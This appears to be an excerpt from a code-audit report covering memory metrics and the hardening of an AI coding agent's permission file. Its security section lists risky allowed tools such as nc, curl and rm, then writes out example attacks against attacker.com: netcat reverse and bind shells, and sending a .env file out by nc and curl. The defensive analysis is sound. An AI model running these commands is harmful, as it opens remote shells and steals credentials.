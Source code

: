 **After:**
```
Heap Size (idle): 79 MB (-3.7%)
Widget Count (HabitsPage): 298 widgets (-14.1%)
Object Allocations/sec: 1,180 (-4.8%)
```

**Memory Improvements:**
- ✅ Lower heap usage (less code loaded)
- ✅ Fewer widgets (extracted components cached)
- ✅ Fewer allocations (value objects reused)

---

## Part 5: Security Analysis

### 5.1 Permission Hardening

#### Before: `.claude/settings.local.json` (50 entries)

**High-Risk Permissions:**
```json
{
  "permissions": {
    "allow": [
      "Bash(nc:*)",          // ❌ Netcat - reverse shells, data exfiltration
      "Bash(echo:*)",        // ❌ Potential injection vectors
      "Bash(cmd /c:*)",      // ❌ Arbitrary Windows command execution
      "Bash(powershell:*)",  // ❌ PowerShell script execution
      "Bash(git reset:*)",   // ❌ Destructive git operations
      "Bash(git checkout:*)",// ❌ Branch manipulation
      "Bash(rm:*)",          // ❌ File deletion
      "Bash(mv:*)",          // ❌ File movement
      "Bash(cp:*)",          // ❌ File copying
      "Bash(curl:*)",        // ❌ Network requests
      "Bash(taskkill:*)",    // ❌ Process termination
      "WebFetch(domain:*)",  // ❌ Unrestricted web access
      ... (38 more entries)
    ]
  }
}
```

**Attack Vectors:**
1. **Remote Code Execution**: `nc -e /bin/bash attacker.com 4444`
2. **Data Exfiltration**: `cat .env | nc attacker.com 9999`
3. **Backdoor Creation**: `while true; do nc -l -p 4444 -e /bin/bash; done`
4. **File Manipulation**: `rm -rf lib/` or `mv lib/ /tmp/`
5. **Credential Theft**: `curl -X POST attacker.com --data @.env`

#### After: `.claude/settings.local.json` (6 entries)

**Minimal, Read-Only Permissions:**
```json
{
  "permissions": {
    "allow": [
      "Bash(find:*)",        // ✅ File search only
      "Bash(git log:*)",     // ✅ Read commit history
      "Bash(git diff:*)",    // ✅ View diffs
      "Bash(awk:*)",         // ✅ Text processing
      "Bash(git cat-file:*)",// ✅ View git objects
      "Bash(git ls-tree:*)"  // ✅ List git tree
    ],
    "deny": [],
    "ask": []
```